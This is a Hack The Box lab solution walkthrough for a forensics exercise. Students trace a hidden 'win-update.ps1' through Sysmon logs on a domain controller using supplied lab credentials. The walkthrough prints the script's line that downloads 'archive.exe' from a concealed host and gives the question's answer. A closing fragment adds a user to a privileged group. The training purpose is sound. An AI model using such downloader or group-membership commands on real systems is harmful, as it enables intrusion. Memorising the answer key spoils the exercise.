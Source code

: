 Next, students will return to `Event Viewer`, scroll to the top, and right-click on `Event Viewer (Local)` and `Connect to Another Computer...`:

![[HTB Solutions/Others/z. images/c9a450adb0536ce0fe145a64eabf8e94_MD5.jpg]]

Students will scrutinize the logs on the `DC01` computer using the credentials `LEGACY\logman:logger@123` by specifying `DC01` in the `Another Computer` field, setting a checkmark on `Connect as another user: <none>` and then on `Set User ...` to supply the credentials:

![[HTB Solutions/Others/z. images/2cf9a73038bee971eb5a322d33e0be86_MD5.jpg]]

Subsequently, students will again navigate to the `Operational` logs of Sysmon and use the `Find` functionality to search for events having the string `win-update.ps1` to uncover the location of the file:

![[HTB Solutions/Others/z. images/66d88649a3493114ac5bc88966d99afd_MD5.jpg]]

With the obtained information, students will return to the PowerShell prompt, and query the contents of the `\\dc01\Public-Shares\Logs` directory while looking for hidden files:

Code: powershell

```powershell
dir \\dc01\Public-Shares\Logs -Hidden
```

```
PS C:\Windows\system32> dir \\dc01\Public-Shares\Logs -Hidden

    Directory: \\dc01\Public-Shares\Logs

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-h--        1/31/2025   6:24 AM             97 win-update.ps1
```

Having confirmed the presence of the `win-update.ps1` file, students will proceed to query the contents to obtain information related to the domain name in the PowerShell script:

Code: powershell

```powershell
Get-Content \\dc01\Public-Shares\Logs\win-update.ps1
```

```
PS C:\Windows\system32> Get-Content \\dc01\Public-Shares\Logs\win-update.ps1

Invoke-WebRequest https://{hidden}/archive.exe -OutFile 'C:\\Tools\\Temp\\archive.exe'
```

Answer: `htb-token-lab.local`

# Skills Assessment

## Question 4


[DC01]: PS C:\Users\admin.user\Documents> Get-ACL -Path "\\dc01\C$\ADMINS$\" | Format-List -Property AccessToString
[DC01]: PS C:\Users\admin.user\Documents> net group Admin-Files admin.user /add
[DC01]: PS C:\Users\admin.user\Documents> cd 'C:\ADMINS$\'
[DC01]: PS C:\ADMINS$> ls
[DC01]: PS C:\Users\admin.user\Documents> exit